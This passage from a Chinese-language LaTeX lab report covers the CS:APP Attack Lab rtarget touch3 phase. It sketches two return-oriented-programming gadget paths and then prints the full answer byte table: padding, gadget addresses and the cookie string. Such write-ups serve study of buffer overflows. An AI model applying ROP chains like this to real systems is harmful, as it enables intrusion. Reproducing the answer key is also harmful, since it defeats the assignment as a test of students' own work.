     \begin{lstlisting}
        
    方法1：实现路径
        rsp->rax->rdi，
        popq %rax
        eax->edx->ecx->esi
        add_xy
        rax->rdi
        touch3

    方法2：加法路径
        rsp->rax
        rax+=0x37    这里虽然只加低8位，但不影响高24位
        rax->rdi
        touch3
    \end{lstlisting}

\subsubsection{Answers}
参考答案如下所示：
\begin{table}[H]
    \centering
    \begin{tabular}{cccccccc}
        \hline
        00 00 00 00 00 00 00 00 \\
        00 00 00 00 00 00 00 00 \\
        00 00 00 00 00 00 00 00 \\
        00 00 00 00 00 00 00 00 \\
        00 00 00 00 00 00 00 00 \\
        06 1a 40 00 00 00 00 00 \\
        c5 19 40 00 00 00 00 00 \\
        ab 19 40 00 00 00 00 00 \\
        48 00 00 00 00 00 00 00 \\
        dd 19 40 00 00 00 00 00 \\
        34 1a 40 00 00 00 00 00 \\
        13 1a 40 00 00 00 00 00 \\
        d6 19 40 00 00 00 00 00 \\
        c5 19 40 00 00 00 00 00 \\
        fa 18 40 00 00 00 00 00 \\
        35 39 62 39 39 37 66 61 \\
        \hline
    \end{tabular}
    \caption{ $Touch 3 \ rtarger$ 注入方案 }
  \end{table}

\begin{figure} [H]
    \centering
    \includegraphics[width=0.4\textwidth]{Rts2.png}
    \caption{$rtarget\ Part\ B$ 实验结果}
\end{figure}


